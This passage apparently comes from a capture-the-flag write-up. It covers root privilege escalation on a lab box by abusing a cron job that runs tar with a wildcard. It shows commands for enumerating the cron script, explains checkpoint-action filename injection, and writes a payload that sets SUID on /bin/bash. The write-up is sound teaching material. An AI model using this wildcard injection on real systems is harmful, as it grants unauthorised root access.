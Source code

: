 We now have shell access as the user `alice`.

## Escalation

### Cron Job Enumeration

With our shell access, we'll search the box and find a cron job that executes a script named **backup.sh** as root every three minutes.

```
<ite-editor/editor/extensions/pagebuilder/includes$ cat /etc/crontab
cat /etc/crontab                         
*/3 * * * * root /usr/local/bin/backup.sh
```

Let's take a look at this script to see if it could be useful to us.

```
<ite-editor/editor/extensions/pagebuilder/includes$ cat /usr/local/bin/backup.sh
cat /usr/local/bin/backup.sh                         
#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

This script checks for any files in the webroot that have been modified in the last three minutes. If any files are found, the webroot is backed up into a tar file using a wildcard "`*`".

We can check if alice has write access to the webroot using `ls` and it turns out that it is owned by alice.

```
<ite-editor/editor/extensions/pagebuilder/includes$ ls -l /var/www 
ls -l /var/www                         
total 4
drwxr-xr-x 5 alice alice 4096 Nov 17 10:21 html
```

### Wildcard Injection Vulnerability

With the cron backup script and our write access to the webroot, we can trick the `tar` command into running arbitrary commands as root using a wildcard injection. This works by using the `--checkpoint` and `--checkpoint-action` flags accepted by `tar`. If we create files in the webroot with names that are arguments for the `tar` command, they will be interpreted as arguments instead of filenames.

First, let's move into the webroot and create a file on the target named **exploit.sh** with a simple command to set SUID on **/bin/bash**.

```
<ite-editor/editor/extensions/pagebuilder/includes$ cd /var/www/html
cd /var/www/html
alice@readys:/var/www/html$ echo "chmod +s /bin/bash" > exploit.sh
echo "chmod +s /bin/bash" > exploit.sh
alice@readys:/var/www/html$ 
```
